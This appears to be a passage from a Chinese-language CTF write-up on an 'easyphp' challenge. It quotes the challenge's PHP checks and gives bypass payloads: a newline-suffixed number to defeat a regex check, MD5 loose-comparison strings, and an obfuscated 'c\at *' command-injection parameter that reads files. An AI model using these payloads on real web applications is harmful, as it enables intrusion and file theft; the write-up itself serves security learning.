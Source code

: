 ```html
<div><br><br><br><br><br><br><br><br><br><br><br><br><br></div>
<footer>
<p>Contact information: <a href="{{url_for('contact')}}">admin@x1c.com</a>.</p>
</footer>
</center>
</body>
</html>
```

`file:///app/templates/contact.html`  读取不到

### easyphp [第二个不懂]

第一个bypass

```php
if($_GET['num'] !== '23333' && preg_match('/^23333$/', $_GET['num'])){
    echo '1st ok'."<br>";
}
else{
    die('23333333');
}
```

payload: `num=23333%0a`，这个在网上找了很久。。原理暂且未知，应该学习尝试下fuzz。  

第二个bypass

```php
//2nd
if(is_numeric($string_1)){
    $md5_1 = md5($string_1);
    $md5_2 = md5($string_2);
    if($md5_1 != $md5_2){
        $a = strtr($md5_1, 'cxhp', '0123');
        $b = strtr($md5_2, 'cxhp', '0123');
        if($a == $b){
            echo '2nd ok'."<br>";
        }
        else{
            die("can u give me the right str???");
        }
    } 
    else{
        die("no!!!!!!!!");
    }
}
else{
    die('is str1 numeric??????');
} 
```

strtr函数后面的字符串，可以对应地去替换。也就是说，c替换为0，x替换为1，...

str1=2120624&str2=240610708&q%20w%20q=c\at%20*
